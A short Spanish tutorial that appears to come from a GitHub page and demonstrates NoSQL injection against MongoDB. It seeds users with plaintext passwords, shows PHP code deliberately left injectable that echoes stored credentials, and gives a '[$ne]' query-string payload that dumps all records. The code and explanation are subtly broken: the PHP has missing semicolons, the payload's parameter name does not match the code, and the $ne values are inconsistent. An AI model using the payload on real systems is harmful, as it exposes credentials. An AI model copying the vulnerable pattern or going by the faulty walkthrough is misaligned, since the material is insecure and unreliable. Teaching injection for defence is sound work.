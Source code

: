 ```bash
use security
db.createCollection("users");
db.users.insertOne({username:"chris",password:"chris123!"})
db.users.insertOne({username:"user1",password:"pass1"})
db.users.insertOne({username:"admin",password:"admin123!"})
db.users.insertOne({username:"chicolate",password:"chico123!"})
```

tenemos el siguiente codigo:

```bash
<?php

if(!empty($_GET["username"])){
	$m = new Mongoclient();
	$db = $m->security;
	$colection = $db->users;
	$qry = array("username" => $_GET['username']);
	$cursor = $colection->find($qry);
	foreach($cursor as $document){
		echo "<br>"
		echo "username: ".$document["username"]."<br>"
		echo "password: ".$document["password"]."<br>"
		echo "<br>"
	}

}

?>
```

si consultamos un registro que existe, devolvera 

```bash
.../?username="chris"
```

el sigiente payload vuelca toda la base de datos (todos os registros donde el nombre no sea igual a 1):

```bash
.../?name[$ne]=1
```

lo que hace esta consulta es lo siguiente:

```bash
#codigo PHP
$qry = array("username" => $_GET['username']);

#reemplazando en el codigo php
$qry = array("username" => array("$ne" => 2));

#esto se traduce a consulta de mongodb asi
db.users.find({"username":{$ne:1}})
```
